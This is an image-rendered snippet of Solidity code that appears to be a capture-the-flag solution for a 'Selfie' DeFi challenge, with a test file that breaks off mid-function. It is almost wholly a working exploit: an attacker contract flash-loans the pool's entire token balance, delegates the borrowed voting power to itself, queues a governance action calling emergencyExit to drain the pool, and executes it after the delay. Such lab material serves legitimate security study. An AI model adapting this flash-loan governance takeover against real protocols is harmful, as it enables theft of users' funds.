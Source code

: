 ```solidity
        pool = _pool;
        governance = _governance;
        token = _token;
        recovery = _recovery;
    }
    
    function attack() external {
        // Flash loan all tokens to gain voting power
        pool.flashLoan(
            IERC3156FlashBorrower(address(this)),
            address(token),
            token.balanceOf(address(pool)),
            ""
        );
    }
    
    function onFlashLoan(
        address,
        address,
        uint256 amount,
        uint256,
        bytes calldata
    ) external returns (bytes32) {
        // Delegate voting power to ourselves
        token.delegate(address(this));
        
        // Queue action to drain pool
        bytes memory data = abi.encodeCall(
            pool.emergencyExit,
            (recovery)
        );
        
        actionId = governance.queueAction(
            address(pool),
            0,
            data
        );
        
        // Approve repayment
        token.approve(address(pool), amount);
        
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
    
    function executeAction() external {
        // Execute after time delay
        governance.executeAction(actionId);
    }
}

// In Selfie.t.sol
function test_selfie() public checkSolvedByPlayer {
    SelfieAttacker attacker = new SelfieAttacker(
        pool,
        governance,
        token,
        recovery
    );
    
    // Attack in first transaction
    attacker.attack();
    
    // Wait for time delay
```